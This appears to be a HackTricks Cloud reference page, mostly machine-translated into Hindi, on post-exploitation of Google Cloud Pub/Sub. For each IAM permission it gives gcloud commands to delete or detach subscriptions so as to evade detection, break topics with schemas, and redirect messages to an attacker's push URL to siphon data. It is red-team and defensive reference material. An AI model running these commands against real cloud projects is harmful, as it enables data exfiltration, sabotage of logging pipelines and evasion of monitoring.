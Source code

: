 # GCP - Pub/Sub Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Pub/Sub

Pub/Sub के बारे में अधिक जानकारी के लिए निम्नलिखित पृष्ठ देखें:

{% content-ref url="../gcp-services/gcp-pub-sub.md" %}
[gcp-pub-sub.md](../gcp-services/gcp-pub-sub.md)
{% endcontent-ref %}

### `pubsub.topics.publish`

एक विषय में एक संदेश प्रकाशित करें, **अप्रत्याशित डेटा भेजने** और अप्रत्याशित कार्यक्षमताओं को ट्रिगर करने या कमजोरियों का शोषण करने के लिए उपयोगी:
```bash
# Publish a message in a topic
gcloud pubsub topics publish <topic_name> --message "Hello!"
```
### `pubsub.topics.detachSubscription`

संदेश प्राप्त करने से एक सदस्यता को रोकने के लिए उपयोगी, शायद पहचान से बचने के लिए।
```bash
gcloud pubsub topics detach-subscription <FULL SUBSCRIPTION NAME>
```
### `pubsub.topics.delete`

सदस्यता को संदेश प्राप्त करने से रोकने के लिए उपयोगी, शायद पहचान से बचने के लिए।\
यह एक विषय को हटाना संभव है, भले ही इसके साथ सदस्यताएँ जुड़ी हों।
```bash
gcloud pubsub topics delete <TOPIC NAME>
```
### `pubsub.topics.update`

इस अनुमति का उपयोग किसी विषय की कुछ सेटिंग को अपडेट करने के लिए करें, जैसे `--clear-schema-settings`, `--message-retention-duration`, `--message-storage-policy-allowed-regions`, `--schema`, `--schema-project`, `--topic-encryption-key`...

### `pubsub.topics.setIamPolicy`

अपने लिए किसी भी पिछले हमले को करने की अनुमति दें।

### **`pubsub.subscriptions.create,`**`pubsub.topics.attachSubscription` , (`pubsub.subscriptions.consume`)

एक वेब सर्वर में सभी संदेश प्राप्त करें:

{% code overflow="wrap" %}
```bash
# Crete push subscription and recieve all the messages instantly in your web server
gcloud pubsub subscriptions create <subscription name> --topic <topic name> --push-endpoint https://<URL to push to>
```
{% endcode %}

एक सदस्यता बनाएं और इसका उपयोग **संदेश खींचने** के लिए करें:
```bash
# This will retrive a non ACKed message (and won't ACK it)
gcloud pubsub subscriptions create <subscription name> --topic <topic_name>

# You also need pubsub.subscriptions.consume for this
gcloud pubsub subscriptions pull <FULL SUBSCRIPTION NAME>
## This command will wait for a message to be posted
```
### `pubsub.subscriptions.delete`

**एक सदस्यता हटाना** लॉग प्रोसेसिंग सिस्टम या कुछ समान को बाधित करने के लिए उपयोगी हो सकता है:
```bash
gcloud pubsub subscriptions delete <FULL SUBSCRIPTION NAME>
```
### `pubsub.subscriptions.update`

इस अनुमति का उपयोग कुछ सेटिंग्स को अपडेट करने के लिए करें ताकि संदेश एक ऐसी जगह पर संग्रहीत हों जहाँ आप पहुँच सकते हैं (URL, Big Query तालिका, बकेट) या बस इसे बाधित करने के लिए। 

{% code overflow="wrap" %}
```bash
gcloud pubsub subscriptions update --push-endpoint <your URL> <subscription-name>
```
{% endcode %}

### `pubsub.subscriptions.setIamPolicy`

अपने आपको उन अनुमतियों दें जो पहले टिप्पणी किए गए हमलों को करने के लिए आवश्यक हैं।

### `pubsub.schemas.attach`, `pubsub.topics.update`,(`pubsub.schemas.create`)

एक स्कीमा को एक विषय से जोड़ें ताकि संदेश इसे पूरा न करें और इसलिए विषय बाधित हो जाए।\
यदि कोई स्कीमा नहीं है, तो आपको एक बनाने की आवश्यकता हो सकती है।

{% code title="schema.json" %}
```json
{
"namespace": "com.example",
"type": "record",
"name": "Person",
"fields": [
{
"name": "name",
"type": "string"
},
{
"name": "age",
"type": "int"
}
]
}
```
{% endcode %}
```bash
# Attach new schema
gcloud pubsub topics update projects/<project-name>/topics/<topic-id> \
--schema=projects/<project-name>/schemas/<topic-id> \
--message-encoding=json
```
### `pubsub.schemas.delete`

यह ऐसा लग सकता है जैसे आप एक स्कीमा को हटा रहे हैं जिससे आप ऐसे संदेश भेज सकेंगे जो स्कीमा के अनुरूप नहीं हैं। हालाँकि, चूंकि स्कीमा हटा दिया जाएगा, कोई भी संदेश वास्तव में विषय के अंदर नहीं जाएगा। इसलिए यह **व्यर्थ** है:
```bash
gcloud pubsub schemas delete <SCHEMA NAME>
```
### `pubsub.schemas.setIamPolicy`

अपने आपको उन अनुमतियों को दें जो पहले टिप्पणी किए गए हमलों को करने के लिए आवश्यक हैं।

### `pubsub.snapshots.create`, `pubsub.snapshots.seek`

यह सभी अनACK किए गए संदेशों का एक स्नैपशॉट बनाएगा और उन्हें सब्सक्रिप्शन में वापस डाल देगा। हमलावर के लिए बहुत उपयोगी नहीं है लेकिन यहाँ यह है:
```bash
gcloud pubsub snapshots create YOUR_SNAPSHOT_NAME \
--subscription=YOUR_SUBSCRIPTION_NAME
gcloud pubsub subscriptions seek YOUR_SUBSCRIPTION_NAME \
--snapshot=YOUR_SNAPSHOT_NAME
```
{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें PRs को** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में सबमिट करके।

</details>
{% endhint %}
